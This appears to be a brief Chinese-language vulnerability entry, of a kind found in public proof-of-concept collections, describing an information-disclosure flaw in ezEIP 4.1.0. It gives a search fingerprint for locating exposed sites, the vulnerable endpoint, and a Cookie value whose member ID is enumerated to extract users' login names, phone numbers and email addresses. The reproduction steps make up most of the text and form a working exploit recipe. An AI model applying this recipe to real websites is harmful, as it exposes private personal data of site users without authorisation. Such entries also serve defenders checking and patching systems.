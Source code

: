 # 

# ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## 网络测绘

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![](./images/202202162312106.png)

